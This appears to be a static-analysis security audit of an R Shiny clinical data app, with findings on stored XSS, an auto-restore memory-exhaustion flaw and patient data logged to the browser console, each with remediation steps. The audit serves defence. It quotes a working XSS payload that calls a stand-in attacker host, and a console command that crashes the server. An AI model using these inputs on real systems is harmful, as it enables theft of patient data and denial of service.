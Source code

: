 🔴 Critical Issues

  - Location: R/utils_server_column_management.R:279 and R/utils_server_column_management.R:332; Vulnerability: Stored
    cross-site scripting because showNotification() renders column names and custom messages without escaping; Attack
    Scenario: An attacker (or malicious dataset pipeline) renames a column to <img src=x onerror=fetch('https://
    attacker/')> via the “Redigér kolonnenavne” modal, saving triggers the notification and the payload executes in the
    clinician’s browser with the app’s privileges, enabling theft of PHI or session takeover; Remediation: Sanitize/
    escape all notification strings (e.g. wrap in htmltools::htmlEscape() or reuse sanitize_column_name() before
    both persistence and messaging) and enforce a strict whitelist of characters for column names before storing;
    Severity Justification: The flaw allows immediate arbitrary JavaScript execution inside the authenticated session,
    jeopardising all sensitive data exposed by the app.

  🟡 High Priority Issues

  - Location: R/utils_server_server_management.R:62-134; Vulnerability: Auto-restore trust of client-
    supplied payload permits unbounded memory allocation → unauthenticated denial of service; Attack
    Scenario: From the browser console an attacker calls Shiny.setInputValue('auto_restore_data',
    list(data=list(nrows=1e7,ncols=100,values=rep(list(rep(0,1e7)),100))), priority='event'), the server attempts to
    materialise a 10M×100 matrix (~8 GB) and the R process exhausts memory, causing the entire Shiny app to crash for
    all users; Remediation: Harden auto_restore_data before reconstruction—enforce strict type/length checks, reject
    payloads exceeding conservative row/column thresholds, verify length(values) matches ncols, and short-circuit
    restoration when validation fails; Severity Justification: A single unauthenticated client can reliably terminate
    the production service, violating availability guarantees expected for clinical tooling.

  🟢 Medium Priority Issues

  - Location: inst/app/www/shiny-handlers.js:5-42; Vulnerability: Sensitive state (complete datasets + metadata) is
    dumped into the browser console; Attack Scenario: When the app autosaves or restores, the full session JSON is
    logged (console.log('Received saveAppState message:', message)), meaning PHI/PII sits in browser logs that can
    be harvested by shared workstations, support tooling, or malicious extensions; Remediation: Remove diagnostic
    console.log statements or gate them behind an explicit debug flag that is disabled in production, and consider
    redacting payloads before any client-side logging; Severity Justification: Console logging is often overlooked yet
    represents a persistent plaintext copy of regulated patient data on endpoints that may not be hardened.

  ℹ️ Informational

  - Ensure the notification hardening described above is applied consistently to helper wrappers such as
    ui_service$show_user_feedback before that API is used; auditing now avoids reintroducing XSS when new features call
    into it.

  Tests not run (static analysis only).

  Next steps: 1) Implement notification sanitisation and column-name validation, 2) Add robust bounds checking around
  auto_restore_data reconstruction, 3) Strip sensitive console logging and verify no other client scripts leak PHI
  before redeploying.
